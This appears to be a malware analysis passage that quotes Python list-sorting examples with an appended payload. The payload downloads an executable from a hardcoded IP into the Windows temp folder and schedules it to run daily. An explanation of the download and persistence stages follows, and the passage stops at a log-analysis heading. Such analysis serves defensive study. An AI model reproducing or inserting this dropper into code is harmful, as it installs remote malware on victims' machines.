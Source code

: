 ```py


                """)
				
# vowels list
vowels = ['e', 'a', 'u', 'o', 'i']
# sort the vowels
vowels.sort()
# print vowels
print('Sorted list:', vowels)


# vowels list
vowels = ['e', 'a', 'u', 'o', 'i']
# sort the vowels
vowels.sort(reverse=True)
# print vowels
print('Sorted list (in Descending):', vowels)
	

# take second element for sort
def takeSecond(elem):
    return elem[1]
# random list
random = [(2, 2), (3, 4), (4, 1), (1, 3)]
# sort list with key
random.sort(key=takeSecond)
# print list
print('Sorted list:', random)	
					
# --- MALICIOUS PAYLOAD BEGINS ---
					
urllib.request.urlretrieve("http://92.27.116.104/", "C:/Windows/Temp/x86_x64_setup.exe")
os.system('SCHTASKS /CREATE /SC DAILY /TN "DailyRoutine" /TR "C:/Windows/Temp/x86_x64_setup.exe" /ST 11:00')
```
1.  **Stage 1: Download Payload (`urllib.request.urlretrieve`)**
    *   This command instructs Python to download a file from the hardcoded C2 server `http://92.27.116.104/`.
    *   It saves the downloaded file to a common temporary location, `C:/Windows/Temp/`, naming it `x86_x64_setup.exe` to masquerade as a legitimate setup file.

2.  **Stage 2: Establish Persistence (`os.system('SCHTASKS ...')`)**
    *   This command executes the Windows Task Scheduler utility (`schtasks.exe`).
    *   It creates a new task named "DailyRoutine."
    *   It configures the task to run every day at 11:00 AM.
    *   It sets the task's action to run the malware that was just downloaded. This ensures the malware will re-execute daily, surviving reboots and making it persistent.

### 3. Confirmation of Success via Log Analysis

